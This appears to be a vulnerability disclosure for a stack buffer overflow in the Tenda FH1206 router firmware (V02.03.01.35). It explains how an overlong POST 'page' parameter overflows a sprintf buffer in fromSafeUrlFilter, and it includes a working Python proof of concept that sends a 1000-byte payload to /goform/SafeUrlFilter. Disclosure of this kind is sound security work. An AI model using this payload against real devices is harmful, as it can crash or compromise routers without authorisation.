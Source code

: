 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSafeUrlFilter.`This function accepts the `page` parameter from a POST request. The statement ` sprintf(v16, "firewall_urlfilterlist.asp?page=%s", v11);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v16` array, thus triggering this security vulnerability.
![image-20240802200744170](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802200744170.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeUrlFilter"
payload = b"a"*1000

data = {"page": payload, "menufacturer": "1"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)

